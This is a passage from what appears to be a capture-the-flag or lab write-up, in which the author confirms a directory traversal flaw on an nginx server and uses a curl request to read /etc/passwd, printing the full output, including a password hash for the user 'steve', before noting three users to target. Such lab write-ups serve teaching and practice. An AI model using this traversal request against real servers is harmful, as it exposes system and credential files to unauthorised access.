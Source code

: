 The fact that the server responded with a 200 OK or 301 Moved Permanently code for paths such as `/usr` and `/etc` confirms that **the server is vulnerable to directory traversal**.

In `decode/` curl to `passwd`:

```bash
❯ curl -i http://192.168.0.106/decode/passwd
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Mon, 24 Feb 2025 18:57:45 GMT
Content-Type: application/octet-stream
Transfer-Encoding: chunked
Connection: keep-alive

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
steve:$y$j9T$gbohHcbFkUEmW0d3ZeUx40$Xa/DJJdFujIezo5lg9PDmswZH32cG6kAWP.crcqrqo/:1001:1001::/usr/share:/bin/bash
decoder:x:1002:1002::/home/decoder:/usr/sbin/nologin
ajneya:x:1003:1003::/home/ajneya:/bin/bash
```

**Key points:** 
- We have tree users:
	- steve → /usr/share
	- decoder → /home/decoder
	- ajneya → /home/ajneya

I focus in `steve`:
